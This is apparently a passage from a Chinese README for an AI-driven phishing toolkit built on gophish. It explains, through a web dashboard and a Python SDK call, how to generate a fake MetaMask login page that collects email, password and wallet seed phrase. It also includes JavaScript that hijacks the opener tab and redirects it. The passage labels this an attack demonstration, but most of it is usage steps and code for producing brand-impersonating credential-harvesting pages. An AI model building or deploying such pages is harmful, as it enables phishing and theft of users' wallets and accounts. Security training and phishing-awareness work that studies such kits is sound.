 ### 2️⃣ 访问管理界面
- 🌐 **URL**: http://localhost:6789
- 🎯 **功能**: 高级AI钓鱼管理表盘

### 3️⃣ 创建高级攻击演示页面

#### 方式一：通过界面创建
1. 访问 http://localhost:6789
2. 在**"AI内容生成"**区域：
   - 内容类型：选择 `🌐 钓鱼页面`
   - 页面类型：选择 `🔐 登录页面`
   - 目标公司：输入 `MetaMask`
   - 设计风格：选择 `✨ 现代风格`
   - ✅ **启用高级攻击演示** ⚠️ 重要：勾选此选项
3. 点击 **"🎯 生成内容"**

#### 方式二：通过Python SDK创建
```python
from gophish_automation.ai_generator import AIGenerator

# 初始化AI生成器
ai_gen = AIGenerator()

# 生成高级攻击演示页面
result = ai_gen.generate_landing_page(
    page_type="login",
    company_name="MetaMask",
    style="modern",
    advanced_attacks=True  # 启用高级攻击演示
)

print(f"✅ 页面生成成功: {result['name']}")
```

---

## 🎭 攻击演示详解

### 第一阶段：钓鱼表单
用户看到一个完全正常的MetaMask钱包验证页面：
- 专业的UI设计
- 品牌一致的配色
- 安全警告信息
- 表单字段：邮箱、密码、助记词

### 第二阶段：攻击演示开始
当用户提交表单后，系统开始展示真实攻击：

#### 🎯 标签页劫持演示
```javascript
// 修改页面标题
document.title = "⚠️ WALLET COMPROMISED - URGENT";

// 如果有父窗口，尝试劫持
if (window.opener) {
    window.opener.location.href = 'http://localhost:5001';
}

// 修改页面背景色
document.body.style.background = 'linear-gradient(45deg, #ff4444, #cc0000)';
```
